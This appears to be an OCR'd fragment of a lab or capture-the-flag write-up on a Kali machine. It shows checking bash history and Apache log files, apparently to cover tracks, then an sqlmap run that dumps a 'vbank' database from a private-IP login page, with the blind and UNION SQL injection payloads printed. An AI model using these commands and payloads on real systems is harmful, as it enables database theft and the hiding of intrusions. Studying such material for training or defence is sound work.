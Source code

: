  $ ls -la | grep bash

  

 -rw-r--r--  1 kali kali      1 Mar  3 16:41 .bash\_history

 -rw-r--r--  1 kali kali    220 Feb 23 05:36 .bash\_logout

 -rw-r--r--  1 kali kali   4705 Feb 23 05:36 .bashrc

 -rw-r--r--  1 kali kali   3526 Feb 23 05:36 .bashrc.original

 \`\`\`

  

 > Since .bash\_history is not writable, deleting is not possible.

  

\- locating other log files

  

 \`\`\`bash

 $ locate log | grep apache | less

 /etc/apache2/conf-available/other-vhosts-access-log.conf

 /etc/apache2/conf-enabled/other-vhosts-access-log.conf

 /etc/apache2/mods-available/log\_debug.load

 /etc/apache2/mods-available/log\_forensic.load

 \`\`\`

  

\- navigate to /var/log/

  

 \`\`\`bash

 $ cd /var/log


```bash
└─$ sqlmap -u 'http://192.168.37.128/login.php?username=alex' -D vbank --dump            
                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:29:59 /2021-05-24/

[06:30:00] [INFO] resuming back-end DBMS 'mysql' 
[06:30:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.37.128/index.php'. Do you want to follow? [Y/n] y
you have not declared cookie(s), while server wants to set its own ('USECURITYID=ejvdcqd1ljl...5evf7j65e5'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=alex' AND (SELECT 3713 FROM (SELECT(SLEEP(5)))DePN) AND 'wVsF'='wVsF

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: username=-3760' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170707a71,0x556c6c594452414f576a744a73504d734d74537a474957704c684b6a6d676f79496e694477664d67,0x7170766b71)-- -
---
[06:37:59] [INFO] the back-end DBMS is MySQL
```